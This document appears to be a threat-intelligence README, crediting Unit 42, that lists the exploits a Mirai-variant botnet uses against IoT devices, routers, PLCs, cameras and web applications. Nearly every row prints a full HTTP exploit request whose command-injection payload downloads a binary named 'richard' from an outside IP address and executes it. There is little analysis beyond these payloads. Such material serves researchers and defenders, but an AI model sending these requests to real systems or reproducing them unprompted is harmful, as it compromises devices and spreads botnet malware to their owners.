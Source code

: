For more details please contact * [@blackorbrid](https://twitter.com/blackorbird)

Thanks for * [pan-unit42](https://github.com/pan-unit42)

|*Vulnerability* | *Affected Devices* | *Exploit Format*|
|---|---|---|
|[CVE-2019-12989, CVE-2019-12991](https://www.exploit-db.com/exploits/47112)|Citrix SD-WAN Appliances (tested on 10.2.2)|```POST /sdwan/nitro/v1/config/get_package_file?action=file_download/cgi-bin/installpatch.cgi?swc-token=%d&installfile=`%s`' % '99999 cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard HTTP/1.1```<br>```'SSL_CLIENT_VERIFY' : 'SUCCESS'```<br>```get_package_fil:```<br>```site_name: 'blah' union select 'tenable','zero','day','research' INTO OUTFILE '/tmp/token_0';#,appliance_type: primary,package_type: active```<br><br>```User-Agent: Hello-World```<br>```Connection: keep-alive```|
|[EyeLock nano NXT Remote Code Execution](https://www.exploit-db.com/exploits/40228)| EyeLock NXT Biometric Iris Readers with firmware version 3.5|```GET /scripts/rpc.php?action=updatetime&timeserver=\|\|cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard HTTP/1.1```|
|[Iris ID IrisAccess ICU Cross-Site Scripting](https://www.exploit-db.com/exploits/40166)|Iris ID IrisAccess ICU 7000-2|```POST /html/SetSmarcardSettings.php HTTP/1.1```<br>```Content-Length: 11660```<br>```Content-Type: application/x-www-form-urlencoded```<br>```Connection: close```<br>```X-Powered-By: PHP/5.5.13```<br>```User-Agent: joxypoxy/7.2.6```<br><br>```HidChannelID=2&HidcmbBook=0&cmbBook=0\|cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard+%23&HidDisOffSet=13&txtOffSet=37&HidDataFormat=1&HidDataFormatVal=1&DataFormat=1&HidFileAvailable=0&HidEncryAlg=0&EncryAlg=0&HidFileType=0&HidIsFileSelect=0&HidUseAsProxCard=0&HidVerForPHP=1.00.08```|
|[CVE-2015-4051](https://www.exploit-db.com/exploits/38514)|Beckhoff CX9020 PLCs|```POST /upnpisapi?uuid:+urn:beckhoff.com:serviceId:cxconfig HTTP/1.1```<br>```User-Agent: Hello-World```<br>```Host: 192.168.0.1:5120```<br>```Content-type: text/xml; charset=utf-8```<br>```SOAPAction: urn:beckhoff.com:service:cxconfig:1#Write```<br>```M-SEARCH * HTTP/1.1```<br>```HOST: 239.255.255.250:1900```<br>```MAN: ssdp:discover',0Dh,0Ah```<br>```MX: 3```<br>```ST: upnp:rootdevice```<br><br>```<?xml version="1.0" encoding="utf-8"?><s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Body><u:Write xmlns:u="urn:beckhoff.com:service:cxconfig:1"><netId></netId><nPort>0</nPort><indexGroup>0</indexGroup><IndexOffset>wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard</IndexOffset><pData>AQAAAAAA</pData></u:Write></s:Body></s:Envelope>```|
|[Xfinity Gateway Remote Code Execution](https://www.exploit-db.com/exploits/40856)|Xfinity Gateways|```POST /actionHandler/ajax_network_diagnostic_tools.php HTTP/1.1```<br>```Host: 10.0.0.1:80```<br>```User-Agent: ```<br>```Accept: application/json, text/javascript, */*; q=0.01```<br>```Accept-Language: en-US,en;q=0.5```<br>```Accept-Encoding: gzip, deflate```<br>```Content-Type: application/x-www-form-urlencoded; charset=UTF-8```<br>```X-Requested-With: XMLHttpRequest```<br>```Referer: http://10.0.0.1/network_diagnostic_tools.php```<br>```Content-Length: 91```<br>```Cookie: PHPSESSID=; auth=```<br>```DNT: 1```<br>```X-Forwarded-For: 8.8.8.8```<br>```Connection: keep-alive```<br><br>```test_connectivity=true&destination_address=www.comcast.net \|\| cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard; &count1=4```|
|[Beward N100 Authenticated Remote Code Execution](https://www.exploit-db.com/exploits/46319)|Beward N100 IP Cameras|```GET /cgi-bin/operator/servetest?cmd=cd /tmp; wget http://185.164.2.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard HTTP/1.1```<br>```Authorization: Basic YWRtaW46YWRtaW4=```<br>```Server: Boa/0.94.14rc21```<br>```Accept-Ranges: bytes```<br>```Connection: close```<br>```Content-type: text/plain```|
|[Fritz!Box Webcm Command Injection](https://www.exploit-db.com/exploits/32753) - this vulnerability was first briefly seen exploited by the Muhstik botnet in January 2018. This is the first instance of exploitation by a Mirai descendant.|Several versions of Fritz!Box devices|```GET /cgi-bin/webcm HTTP/1.1```<br><br>```var:lang&cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard```|
|[FLIR Thermal Camera Command Injection](https://www.exploit-db.com/exploits/42788)| Certain FC-Series S and PT-Series models of FLIR Cameras|```POST /page/maintenance/lanSettings/dns HTTP/1.1```<br>```Host: 192.168.0.1:80```<br>```Content-Length: 64```<br>```Accept: */*```<br>```Origin: http://192.168.0.1```<br>```X-Requested-With: XMLHttpRequest```<br>```User-Agent: Testingus/1.0```<br>```Content-Type: application/x-www-form-urlencoded```<br>```Referer: http://192.168.0.1/maintenance```<br>```Accept-Language: en-US,en;q=0.8,mk;q=0.6```<br>```Cookie: PHPSESSID=d1eabfdb8db4b95f92c12b8402abc03b```<br>```Connection: close```<br><br>```dns%5Bserver1%5D=8.8.8.8&dns%5Bserver2%5D=8.8.4.4%60cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard%60```|
|[Sapido RB-1732 Remote Command Execution](https://www.exploit-db.com/exploits/47031)|Sapido RB-1732 Wireless Routers | ```GET /goform/formSysCmd HTTP/1.1```<br>```('<textarea rows="15" name="msg" cols="80" wrap="virtual">')```<br>```('</textarea>')```<br><br>```{'sysCmd': cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard, 'apply': 'Apply', 'submit-url':'/syscmd.asp', 'msg':''}```|
|[CVE-2016-0752](https://www.exploit-db.com/exploits/40561)|Ruby on Rails multiple versions|```POST /users/%2f/%2fproc%2fself%2fcomm HTTP/1.1```<br>```Content-Type: multipart/form-data; boundary=```<br>```<%=`wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard -O /tmp/richard; chmod +x /tmp/richard; /tmp/richard`%>```|
|[CVE-2014-3914](https://www.exploit-db.com/exploits/33807)|Rocket ServerGraph 1.2 (tested on Windows 2008 R2 64 bits, Windows 7 SP1 32 bits and Ubuntu 12.04 64 bits)|```POST /SGPAdmin/fileRequest HTTP/1.1```<br>```&invoker=&title=&params=&id=&cmd=cd /tmp; wget http://185.164.72.155/richard; curl -O http://185.164.72.155/richard; chmod +x richard; ./richard&source=&query=```|
|[CVE-2015-2208](https://www.exploit-db.com/exploits/36251)|PHPMoAdmin installations|```POST /moadmin/moadmin.php HTTP/1.1```<br>```Host: 192.168.0.1:80```<br>```User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:36.0)Gecko/20100101 Firefox/36.0```<br>```Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8```<br>```Accept-Language: en-US,en;q=0.5```<br>```Accept-Encoding: gzip, deflate```<br>```DNT: 1```<br>```Connection: keep-alive```<br>```Pragma: no-cache```<br>```Cache-Control: no-cache```<br>```Content-Type: application/x-www-form-urlencoded```<br>```Content-Length: 34```<br><br>```object=1;system(wget http://185.164.72.155/richard; curl -O http:#//185.164.72.155/richard; chmod +x richard; ./richard);exit```|





